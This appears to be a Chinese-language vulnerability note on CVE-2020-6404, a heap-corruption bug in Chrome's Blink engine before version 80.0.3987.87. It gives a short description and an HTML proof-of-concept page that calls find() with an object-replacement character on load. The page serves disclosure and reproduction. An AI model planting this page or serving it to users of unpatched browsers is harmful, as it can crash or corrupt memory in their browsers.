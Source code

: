 # CVE-2020-6404 Google Chrome Blink 缓冲区错误漏洞

### 一、漏洞简介

在80.0.3987.87之前的Google Chrome中，Blink中的不当实现使远程攻击者有可能通过精心制作的HTML页面利用堆破坏。

### 二、漏洞影响

Google Chrome 80.0.3987.87

### 三、复现过程

**poc**


```html
<!DOCTYPE html>
<head>
<script type="text/javascript">
document.addEventListener("DOMContentLoaded", function(){
find(decodeURIComponent('\uFFFC'));
});
</script>
</head>
<body>
<legend></legend>
</body>
</html>
```

![](images/15890294238404.png)


